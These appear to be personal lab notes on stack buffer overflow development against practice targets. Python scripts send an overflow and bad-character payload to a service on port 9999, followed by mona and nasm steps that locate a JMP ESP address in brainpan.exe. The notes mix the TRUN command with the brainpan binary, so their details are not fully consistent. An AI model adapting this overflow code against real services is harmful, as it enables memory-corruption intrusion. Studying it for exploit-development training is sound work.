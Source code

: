 import sys, socket

badchars = \(
"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10"
"\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20"
"\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30"
"\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40"
"\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50"
"\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60"
"\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70"
"\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80"
"\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90"
"\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0"
"\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0"
"\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0"
"\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0"
"\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0"
"\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0"
"\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
\)

shellcode = "A" \* 516 \+ "B" \* 4 \+ badchars
payload = "TRUN /\.:/" \+ shellcode

try:
s = socket\.socket\(socket\.AF\_INET, socket\.SOCK\_STREAM\)
s\.connect\(\("192\.168\.0\.7", 9999\)\)
s\.send\(payload\.encode\(\)\)
s\.close\(\)

except:
print \("Error connecting to server"\)
sys\.exit\(\)

#### NOTE
Encountered issue with unwanted 2 byte utf\-8 encoding resulting in extended ASCII

modified program to

import sys, socket

badchars = b"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"

shellcode = b"A" \* 515 \+ b"B" \* 4 \+ badchars
payload = b"TRUN /\.:/" \+ shellcode

try:
s = socket\.socket\(socket\.AF\_INET, socket\.SOCK\_STREAM\)
s\.connect\(\("192\.168\.0\.7", 9999\)\)
s\.send\(payload\)
s\.close\(\)

except:
print \("Error connecting to server"\)
sys\.exit\(\)

-  0 badchars
-  \!mona modules
-  finding a module with no memory protections
-  found 1 module called "brainpan\.exe"
-  /usr/share/metasploit\-framework/tools/exploit/nasm\_shell\.rb                        
nasm \> JMP ESP
00000000  FFE4              jmp esp
-  \!mona find \-s "\\xff\\xe4" \-m brainpan\.exe
-  found address 0x311712f3 -  move to disassembler and set breakpoint at this memory address F2 